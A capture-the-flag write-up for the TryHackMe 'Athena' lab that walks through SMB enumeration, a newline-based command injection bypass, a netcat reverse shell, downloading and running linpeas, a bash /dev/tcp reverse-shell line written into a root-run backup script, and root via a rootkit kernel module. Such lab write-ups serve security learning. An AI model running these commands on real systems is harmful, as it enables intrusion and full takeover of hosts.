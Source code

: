 ```yaml
---
title: Athena
tags:
  - thm
  - medium
---
```


#### Author: AMD

![nocturnal](../../images/thm/athena/athena.png)

This is a writeup for <b>Athena</b> room.

My target IP: 10.10.231.238

-----------------------------------------------------------------------------------
<b>NMAP</b>

Lets scan out target.

![nmap](../../images/thm/athena/nmap.png)

-----------------------------------------------------------------------------------
<b>RESEARCH</b>

Let's see what unusual ports used for.

![research](../../images/thm/athena/research.png)

-----------------------------------------------------------------------------------
<b>SMB CLIENT CONNECTION</b>

Let's list SMB shares that are accessible as guest. (-N)

![smbclient_list](../../images/thm/athena/smbclient_list.png)

![smbclient_ipc](../../images/thm/athena/smbclient_ipc.png)

![smbclient_public](../../images/thm/athena/smbclient_public.png)

We are in.

-----------------------------------------------------------------------------------
<b>SMB CLIENT</b>

Let's look around.

![smbclient_ls](../../images/thm/athena/smbclient_ls.png)

Run "vim msg_for_administrator.txt"

![msg_for_administrator](../../images/thm/athena/msg_for_administrator.png)

-----------------------------------------------------------------------------------
<b>ROUTER PANEL</b>

![router_panel](../../images/thm/athena/router_panel.png)

Let's try whoami.

![whoami](../../images/thm/athena/whoami.png)

![whoami_result](../../images/thm/athena/whoami_result.png)

-----------------------------------------------------------------------------------
<b>INJECTION</b>

Input "dummy", catch the request with Burp Suite and send to repeater.

All attempts ends up with "Attempt hacking!" or "Failed to execute ping." if they contain characters like ';' '|' '&' etc. But '\n' (%0a) works

![id](../../images/thm/athena/id.png)

![passwd](../../images/thm/athena/passwd.png)

-----------------------------------------------------------------------------------
<b>REVERSE SHELL</b>

run "nc -lvnp 4444"

![reverse_shell_burp](../../images/thm/athena/reverse_shell_burp.png)

![conn_received](../../images/thm/athena/conn_received.png)

We need to connect user athena.

-----------------------------------------------------------------------------------
<b>PRIVILEGE EXCALTION PART 1</b>

run "wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh" to get linpeas.sh on your pc.

run "python3 -m http.server 8080" on your pc to host it.  (Close Burp or change port)

run "wget http://YOUR-IP:8080/linpeas.sh -O /tmp/linpeas.sh"

run "chmod +x /tmp/linpeas.sh" to make it executable

run "/tmp/linpeas.sh"

![backup_sh](../../images/thm/athena/backup_sh.png)

![backup_sh_perms](../../images/thm/athena/backup_sh_perms.png)

-----------------------------------------------------------------------------------
<b>PRIVILEGE EXCALTION PART 2</b>

run "echo 'bash -i >& /dev/tcp/YOUR-IP/9001 0>&1' > /usr/share/backup/backup.sh"

run "nc -lvnp 9001" on your pc,

![user_athena](../../images/thm/athena/user_athena.png)

-----------------------------------------------------------------------------------
<b>GET USER FLAG</b>

![user_flag](../../images/thm/athena/user_flag.png)

-----------------------------------------------------------------------------------
<b>USER athena PERMISSION</b>

![user_athena_perm](../../images/thm/athena/user_athena_perm.png)

-----------------------------------------------------------------------------------
<b>PRIVILEGE EXCALTION PART 3</b>

![venom_ko_perms](../../images/thm/athena/venom_ko_perms.png)

It is readable. Lets get it

![venom_web_server](../../images/thm/athena/venom_web_server.png)

![get_venom](../../images/thm/athena/get_venom.png)

-----------------------------------------------------------------------------------
<b>INSPECT venom.ko</b>

Fire up Ghidra and open venom.ko

Under functions find give_root function.

![give_root](../../images/thm/athena/give_root.png)

Other weird funciton is hacked_kill.

![hacked_kill](../../images/thm/athena/hacked_kill.png)

![root_call](../../images/thm/athena/root_call.png)

If we kill the process 57 (0x39) we can become root.
-----------------------------------------------------------------------------------
<b>PRIVILEGE EXCALTION PART 4</b>

run "sudo /usr/sbin/insmod /mnt/.../secret/venom.ko"

run "kill -57 0"

run "id"

-----------------------------------------------------------------------------------
<b>GET ROOT FLAG</b>

run "cd /root"

run "cat root.txt"

![root_flag](../../images/thm/athena/root_flag.png)
